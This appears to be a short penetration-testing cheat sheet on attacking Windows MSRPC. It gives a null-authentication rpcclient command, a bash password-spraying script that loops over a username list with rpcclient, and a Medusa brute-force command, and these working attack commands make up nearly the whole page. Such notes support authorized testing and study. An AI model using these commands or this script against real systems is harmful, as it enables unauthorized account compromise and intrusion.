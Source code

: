 # MSRPC

## 01 - Null Authentication

```
$ rpcclient -U "" [-p 593] -N <IP>
```

## 02 - Brute Force

### 2.1 - Automated Script

```bash
#!/bin/bash

while read -r username
do
    echo -n "[*] user: $username" && rpcclient -U "$username%$2" -c "getusername;quit" $3
done < "${1}"
```

Syntax as it follows.

```
$ chmod 755 password-spraying.sh

$ ./password-spraying.sh users.lst <password> <IP>
```

### 2.2 - Medusa

```
$ medusa -u <username> -p <password> -h <IP> -M msrpc
```

---
## References

- [[07 - Tactics & Techniques & Procedures Phases/A - Information Gathering/0x02 - Active Fingerprinting/Network Ports/Windows/Remote Services/MSRPC|Active Fingerprint: MSRPC]]